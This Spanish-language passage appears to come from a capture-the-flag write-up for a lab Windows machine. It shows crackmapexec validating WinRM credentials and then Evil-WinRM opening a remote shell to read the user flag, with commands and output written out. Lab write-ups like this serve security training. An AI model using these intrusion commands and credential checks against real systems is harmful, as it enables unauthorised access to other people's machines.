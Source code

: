 Bien, tratemos de ver si es posible conectarnos por **winrm** para poder usar la herramienta **Evil-WinRM** y conectarnos de manera remota:
```bash
crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106    5985   DRIVER           [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

Muy bien, ahora usa esa herramienta con las credenciales para conectarte:
```bash
evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents>
```

Tardo un poquito, pero ya nos conectamos de manera remota, solo busca la flag y continuamos con las post explotación:
```batch
*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> dir


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/23/2023  12:59 AM             34 user.txt


*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
